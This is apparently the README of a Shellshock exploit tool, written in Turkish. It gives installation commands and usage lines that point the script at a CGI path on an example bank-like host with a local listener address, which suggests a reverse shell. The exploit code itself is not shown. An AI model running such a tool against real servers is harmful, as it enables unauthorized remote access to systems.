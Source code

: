 # ShellsHock Exploit

## Kurulum

    apt install git
    apt install python
    git clone https://github.com/ASER-VANT/ShellsHock.git
    cd ShellsHock
    pip install -r requirements.txt
  
## Tek Komutla Kurulum

    apt install git && apt install python && git clone https://github.com/ASER-VANT/ShellsHock.git && cd ShellsHock && pip install -r requirements.txt

## Kullanımı

    python3 shellshock.py --help

Yardım Ekranı (Lütfen Okuyunuz)

    python3 shellshock.py -u http://xbank.com/cgi-bin/test -l 192.168.1.150

Yada

    python3 shellshock.py --url http://xbank.com/cgi-bin/test --lhost 192.168.1.150
